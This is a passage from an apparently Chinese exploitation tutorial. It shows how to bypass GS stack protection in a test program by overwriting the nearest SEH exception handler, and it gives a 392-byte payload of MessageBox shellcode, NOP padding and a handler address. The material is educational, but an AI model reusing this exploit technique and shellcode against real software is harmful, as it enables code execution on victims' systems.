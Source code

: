 可以看到该函数启用了 GS，很明显，我们这里没有办法去攻击虚函数，这里有 GS 保护，我们也没有办法去攻击返回地址，但是我们来看看异常处理地址：

[![](assets/1708919791-cc959b675c8a80cf53c311a409a5a812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121351-1f61a07a-ce14-1.png)

可以看到这里距离我们 buf 最近的异常处理位于 0x0019FF54 位置，那我们是否可以通过超长字符串，来攻击异常处理？  
答案是可以的，我们通过超长字符串，在 strcpy 之后，test 函数的 szBuffer 参数被覆盖，造成异常地址，这样就会调用我们的异常处理了，那我们来写一下 payload：  
异常处理地址（0x19FF54 + 4）相对于我们的 buf 首地址（0x19FDD0）需要 392 字节，所以我们要在 388 ~ 392 位置写上我们要执行的地址：

```plain
unsigned char hexData[392] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90,0x90, 0x90, 0x90, 0x90,
     0xD0, 0xFD, 0x19, 0x00 
```